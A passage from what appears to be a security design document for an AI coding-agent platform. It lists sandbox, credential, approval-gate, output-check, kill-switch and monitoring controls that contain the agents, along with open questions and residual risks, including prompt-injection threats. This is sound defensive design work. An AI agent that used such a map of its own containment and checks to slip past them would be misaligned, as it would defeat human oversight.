| SC-07 | Default-deny egress with per-run FQDN allowlists and DNS name allowlists | WS-02 / WS-09 | [ccnp-sandbox-baseline.yaml](policies/network/ccnp-sandbox-baseline.yaml), [cnp-run-egress.*](policies/network/) |
| SC-08 | No east-west traffic between sandboxes; no Services in sandbox namespaces | WS-09 | same |
| SC-09 | No human `exec`/`attach`/`portforward` into sandboxes; exec-cluster human access is break-glass only | WS-09 | [tenant-namespace.yaml](policies/kubernetes/tenant-namespace.yaml), [secrets.md](secrets.md) §8 |
| SC-10 | Runtime detection on sandbox hosts (Tetragon TracingPolicies; GuardDuty EKS) | WS-09 / WS-08 | [tenancy.md](tenancy.md) §3.5 |
| SC-11 | Run tokens: ES256 in KMS, ≤ 60 min, refresh refused after terminal, **per audience** | WS-02 | C-RUNNER; [adr/006](adr/006-per-audience-run-tokens.md) |
| SC-12 | Core-signed run grants bound the Runner's token minting | WS-09 / WS-01 / WS-02 | [adr/005](adr/005-run-grants-bound-exec-side-minting.md) |
| SC-13 | Per-run STS: ABAC tags, prefix-scoped, tenant key, ≤ 1 h, usable only through the sandbox VPC endpoint | WS-09 / WS-02 | [sandbox-artifacts.permissions.json](policies/iam/sandbox-artifacts.permissions.json) |
| SC-14 | No GitHub, Temporal, Postgres, or Slack credentials in sandboxes; repo access through repo-mirror | WS-00 / WS-02 | ADR-011 |
| SC-15 | GitHub App private key imported into KMS (non-exportable), only the broker signs; per-call downscoped tokens; App lacks `workflows` and `administration` | WS-09 / WS-07 | [secrets.md](secrets.md) §4, [adr/004](adr/004-github-app-key-in-kms.md) |
| SC-16 | Webhook and Slack signature verification; secrets rotated | WS-07 | 07 github-app.md; [secrets.md](secrets.md) §5 |
| SC-17 | Workload identity: EKS Pod Identity, one role per service | WS-09 | [adr/003](adr/003-eks-pod-identity-over-irsa.md) |
| SC-18 | AWS Secrets Manager + External Secrets Operator; no secrets in sandbox env | WS-09 | [adr/002](adr/002-secrets-manager-over-vault.md) |
| SC-19 | Postgres: IAM DB auth per service, no standing human access, break-glass with approval, pgaudit, SSM | WS-09 / WS-10 | [secrets.md](secrets.md) §7, [roles-and-rls.sql](policies/postgres/roles-and-rls.sql) |
| SC-20 | Temporal mTLS and custom Authorizer with per-identity allowlists | WS-09 / WS-01 | [authorizer.go](policies/temporal/authorizer.go) |
| SC-21 | Temporal payload encryption with per-tenant data keys; codec server authorizes by tenant and audits | WS-09 / WS-01 | [secrets.md](secrets.md) §6 |
| SC-22 | KMS key policies separate administration from use; `kms:ViaService`; crypto-shred on offboarding | WS-09 / WS-10 | [kms-key-policy.tenant.json](policies/iam/kms-key-policy.tenant.json) |
| SC-23 | Role capability model | WS-09 | [agent-capabilities.md](agent-capabilities.md) |
| SC-24 | CLI hardening: managed settings, repo agent config neutralized | WS-03 | [agent-capabilities.md](agent-capabilities.md) §5 |
| SC-25 | Untrusted-content framing in context assembly; earlier role outputs quoted as data | WS-04 / WS-03 | 04 context-budget, retrieval-injection |
| SC-26 | Output checks: run_result schema, diff scope vs plan, sensitive paths, dependency changes, test-delta facts, harness-computed QA verdict | WS-01 / WS-05 | 01 verifier node; 05 QA |
| SC-27 | Deterministic risk classification; LLM may only raise | WS-07 / WS-09 | 07 approvals; [agent-capabilities.md](agent-capabilities.md) §6 sensitive paths |
| SC-28 | Approval bound to diff digest; publish refuses mismatches; re-gate after changes | WS-07 / WS-01 | 07 approvals; C-ART approval_packet |
| SC-29 | Self-approval policy, human-only decisions, live identity checks, repair-trigger checks | WS-07 | C-MSG V1–V10 |
| SC-30 | Confused-deputy checks at intake (write), `additional_repos` (read), code search (`acting_for`) | WS-07 / WS-04 | CCR-09-03 |
| SC-31 | No internet; internal-only destinations; gateway model allowlist | WS-02 / WS-03 | [agent-capabilities.md](agent-capabilities.md) §3 |
| SC-32 | Secret scanning of diffs (blocks publish) and of every text Replicant posts | WS-09 / WS-07 | [data-handling.md](data-handling.md) §4 |
| SC-33 | Public-repo policy: mandatory publish gate, no private context repos | WS-07 | [data-handling.md](data-handling.md) §4 |
| SC-34 | Presigned, audited artifact access; `raw-restricted` never displayed | WS-07 / WS-10 | C-ART §5 |
| SC-35 | Memory content rules | WS-04 | 04 safety.md |
| SC-36 | Curated package mirror: quarantine of versions younger than 72 h, malicious-package blocking, upstream allowlist, no origin VCS fetch | WS-02 / WS-09 | [agent-capabilities.md](agent-capabilities.md) §4 |
| SC-37 | Shared caches read-only, built by a trusted pipeline, content-addressed, per isolation group | WS-02 | 02 fast-path |
| SC-38 | Image signing and admission verification; digest pinning | WS-03 / WS-09 | [tenancy.md](tenancy.md) §3.4 |
| SC-39 | CLI binary provenance verification at image build | WS-03 | 03 environment-definition |
| SC-40 | Replicant repo and config repo protections; CI via OIDC | WS-03 / WS-06 | 03 config-publishing |
| SC-41 | Memory lifecycle, admin curation, quarantine, rollback, snapshot pinning | WS-04 | 04 write-path, safety |
| SC-42 | Two-person rule: prod bundle promotion, gate-relaxing policy changes, break-glass writes, org-scope memory activation, KMS deletion, tenant offboarding | WS-09 (rule) / WS-06, WS-07 (mechanism) | [data-handling.md](data-handling.md) §6 |
| SC-43 | Operator data-access minimization (codec authz, session bucket, transcripts by job authz) | WS-09 | [secrets.md](secrets.md) §6, [tenancy.md](tenancy.md) |
| SC-44 | Separation of duties among Okta groups | WS-09 / WS-07 | [tenancy.md](tenancy.md) §9 |
| SC-45 | Gateway budgets per run, job, tenant, day; model allowlist | WS-03 | 03 gateway |
| SC-46 | Runner admission quotas, ResourceQuota, priority classes, fair queueing | WS-02 | [tenancy.md](tenancy.md) §3.3 |
| SC-47 | Trigger rate limits, dedupe, fan-out caps, repair limits | WS-07 / WS-01 | 07 triggers |
| SC-48 | Kill switches: global, tenant, repo, bundle | WS-07 | ADR-013 operational config |
| SC-49 | Spend and behavior anomaly alerts | WS-08 | 08 alerts |
| SC-50 | Audit: `audit.emit`, Object Lock export, org CloudTrail incl. S3 data events and KMS | WS-08 / WS-10 | [data-handling.md](data-handling.md) §5 |
| SC-51 | Redaction before Loki/Langfuse; functional Loki tenants with server-built tenant selectors; Grafana and Langfuse operators-only (one Langfuse org and project per environment); restricted tenants send no spans to Langfuse | WS-08 / WS-09 | [tenancy.md](tenancy.md) §8 |
| SC-52 | Security monitoring: GuardDuty, Hubble deny logs, Access Analyzer, Security Hub | WS-09 / WS-08 | [tenancy.md](tenancy.md) §3.5 |
| SC-53 | Okta OIDC/SCIM, identity links proven by OAuth, phishing-resistant MFA for Replicant groups | WS-07 | 07 identity.md |
| SC-54 | Channel request verification (Slack, GitHub, Jira) | WS-07 | 07 |
| SC-55 | Server-side authorization on every API endpoint; D-25 admin checks | WS-07 | 07 identity.md |
| SC-56 | Encryption at rest and in transit (S3 SSE-KMS per tenant, RDS, EBS, etcd envelope encryption, TLS everywhere, mTLS for Temporal) | WS-10 / WS-09 | [secrets.md](secrets.md) §6 |
| SC-57 | Retention and deletion, including Langfuse sweeper and crypto-shred | WS-10 / WS-08 | [data-handling.md](data-handling.md) §3 |
| SC-58 | Tenant offboarding procedure | WS-09 / WS-10 | [tenancy.md](tenancy.md) §10 |
| SC-59 | repo-mirror: run-token `repo_ids` authorization, read-only protocol, per-tenant cache partition, run-phase check | WS-02 | 02 runner-service / fast-path |
| SC-60 | Replicant-posted text is templated; untrusted text never interpolated into workflow-generated summaries | WS-07 / WS-01 | C-MSG §3.4 |

## Open questions

| Question | Who decides | Options | Recommendation |
|---|---|---|---|
| Which tenants get dedicated sandbox node pools? | Security leadership with tenant owners | none / data-classification-driven / all | Classification-driven: tenants holding `restricted` code (payments, identity, security tooling) get an isolation group; others share (R-01) |
| Accept R-04 (Runner-vended STS) or move STS vending to core? | Orchestrator, WS-02, WS-09 | accept with detection / core-side credential broker reached from the sandbox | Accept with detection for v1; re-evaluate after the first red-team |
| Does WS-05 run an LLM agent in QA at all? | WS-05 | deterministic harness only / agent for triage | Harness only for the verdict; any agent is advisory (affects §7.1) |
| Two-person rule for org-scope memory activation (R-06) | WS-04, WS-07, orchestrator | single admin / two admins | Two admins |

## Risks

- Several controls depend on contract changes (CCR-09-01, CCR-09-02, CCR-09-03, CCR-09-07). If
  rejected, the residual ratings for T-CRED-02, T-PI-06, §7.3, and T-SBX-08 rise as stated.
- The CEL in the admission policies is parsed but has not been run against an API server here.
  WS-11's envtest suite must exercise each rule (listed in control-review.md).
- Runtime advisories arrive monthly in 2026. A 72-hour patch SLA requires WS-02's node image
  pipeline to rebuild and roll pools without draining long runs abruptly (8-hour maximum runs).

## Interfaces

- **Provided:** control catalog SC-01..SC-60 (consumed by control-review and every workstream);
  threat IDs T-*; residual risk register R-01..R-09.
- **Consumed:** C-ARCH §6, C-MSG §1, C-RUNNER, C-CRD, C-ART, C-PG, C-STATE, C-DEF, ADR-002, ADR-007,
  ADR-010, ADR-011, ADR-013, ADR-014.
